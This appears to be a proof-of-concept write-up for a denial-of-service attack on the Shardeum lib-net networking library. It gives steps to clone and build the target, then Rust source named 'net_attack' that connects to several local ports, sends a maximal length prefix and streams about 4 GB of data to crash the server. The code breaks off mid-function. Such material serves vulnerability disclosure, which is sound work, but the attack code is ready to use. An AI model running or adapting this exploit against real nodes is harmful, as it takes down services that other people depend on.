 
#### run

```
git clone https://github.com/shardeum/lib-net.git; 
npm run build
node test.js
```

#### attacker

**run**

```
cargo new net_attack
cd net_attack
echo 'tokio = { version = "1.39.2", features = ["full"] }' >> Cargo.toml
```

#### save as src/main.rs

```
use std::io::Write;
use std::net::TcpStream;
use tokio::time::{sleep, Duration};

#[tokio::main(flavor = "multi_thread", worker_threads = 10)]
async fn main() {
    // Connect to a TCP server running on localhost at port 8080
    let mut handles = vec![];
    // for i in 10001..10010 {
    for i in 10000..10006 {
        let conn = format!("localhost:{}",i);

        let handle = tokio::spawn(async move {
            if let Ok(mut stream) = TcpStream::connect(conn.clone()) {
                println!("working on {}", conn.clone());
        
                // send length
                let u32_data: u32 = u32::MAX;
                stream.write_all(&u32_data.to_be_bytes()).unwrap();
        
        
                // 1kb data
                let u8_data = vec![0; 1024];
        
                // send 4g 
                let mut kb_send = 0;
                for i in 0.. (1024*1024*4)  {
                    let ret = stream.write_all(&u8_data);
                    match ret {
                        Ok(_) => { kb_send += 1; }
                        _ => {}
                    }

                    // if i % 2513 == 0 {
                    //     println!("waiting");
                    //     sleep(Duration::from_secs(5)).await;
                    // }
                }
                println!("{} took {} kb of data to explode the server", conn, kb_send);
            }
        });
        handles.push(handle);
    }

```